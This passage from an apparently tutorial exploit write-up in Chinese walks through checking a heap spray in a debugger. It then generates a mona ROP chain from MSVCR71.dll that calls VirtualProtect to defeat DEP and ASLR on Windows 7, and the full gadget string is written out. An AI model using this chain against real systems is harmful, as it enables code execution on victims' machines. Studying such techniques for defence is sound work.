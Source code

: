 ![](https://i.loli.net/2021/04/28/GarvRPtu5koDbmU.png)

 

筛选大小为 ffff0 的堆块，可以看到每个堆块低位均为 0020

 

![](https://i.loli.net/2021/04/28/yBTpPR8frbaq5xE.png)

 

搜索 shellcode "FuzzySecurity"，可以看到每个 shellcode 间隔为 1000，正好为我们构造的 block，一部分内存已被 block 铺满，没有空隙

```
s -a 0x00000000 L?7fffffff "FuzzySecurity"

```

![](https://i.loli.net/2021/04/28/FwXmCNbqUK2B5nO.png)

 

构造 ROP

 

为了绕过 win7 的 dep 和 ASLR，需要构造 ROP 调用 VirtualProtect 以关闭 dep，win7 浏览器会加载 jdk1.6，其中有两个模块没有开启 ASLR 的模块，mona 插件查询 ROP

 

![](https://i.loli.net/2021/04/28/sj5zBXASwLkZTKe.png)

 

自动生成 ROP 链，有问题需稍加修改，之后更改 ROP 以令程序执行 call dword ptr [eax+8] 时能够跳转到 ROP，具体为迁移栈到 0c0c0c0c

```
!py mona rop -m "MSVCR71.dll, jp2ssv.dll"
 
//rop chain generated with mona.py - www.corelan.be
var rop_gadgets = unescape(
    "%u5b4f%u7c36" + // 0x7c365b4f : ,# POP EBX # POP EBP # RET [MSVCR71.dll]
    "%u0201%u0000" + // 0x00000201 : ,# 0x00000201-> ebx
    "%u8b05%u7c34" + // 0x7c348b05: ,# XCHG EAX,ESP # RETN
    "" + // #[---INFO:gadgets_to_set_ebp:---] :
    "%u6d28%u7c35" + // 0x7c356d28 : ,# POP EBP # RETN [MSVCR71.dll]
    "%u6d28%u7c35" + // 0x7c356d28 : ,# skip 4 bytes [MSVCR71.dll]
    "" + // #[---INFO:gadgets_to_set_ebx:---] :
    // "%u09cf%u7c36" + // 0x7c3609cf : ,# POP EBX # RETN [MSVCR71.dll]
    // "%u0201%u0000" + // 0x00000201 : ,# 0x00000201-> ebx
    "" + // #[---INFO:gadgets_to_set_edx:---] :
    "%u4f8e%u7c34" + // 0x7c344f8e : ,# POP EDX # RETN [MSVCR71.dll]
    "%u0040%u0000" + // 0x00000040 : ,# 0x00000040-> edx
    "" + // #[---INFO:gadgets_to_set_ecx:---] :
    "%u8ab2%u7c35" + // 0x7c358ab2 : ,# POP ECX # RETN [MSVCR71.dll]
    "%uf2a1%u7c38" + // 0x7c38f2a1 : ,# &Writable location [MSVCR71.dll]
    "" + // #[---INFO:gadgets_to_set_edi:---] :
    "%ue239%u7c36" + // 0x7c36e239 : ,# POP EDI # RETN [MSVCR71.dll]
    "%ud202%u7c34" + // 0x7c34d202 : ,# RETN (ROP NOP) [MSVCR71.dll]
    "" + // #[---INFO:gadgets_to_set_esi:---] :
    "%uf8f8%u7c34" + // 0x7c34f8f8 : ,# POP ESI # RETN [MSVCR71.dll]
    "%u15a2%u7c34" + // 0x7c3415a2 : ,# JMP [EAX] [MSVCR71.dll]
    "%u6747%u7c37" + // 0x7c376747 : ,# POP EAX # RETN [MSVCR71.dll]
    "%ua151%u7c37" + // 0x7c37a140 : ,# ptr to &VirtualProtect() [IAT MSVCR71.dll]
    "" + // #[---INFO:pushad:---] :
    "%u8c81%u7c37" + // 0x7c378c81 : ,# PUSHAD # ADD AL,0EF # RETN [MSVCR71.dll]
    "" + // #[---INFO:extras:---] :
    "%u5c30%u7c34" + // 0x7c345c30 : ,# ptr to 'push esp # ret ' [MSVCR71.dll]
"");

```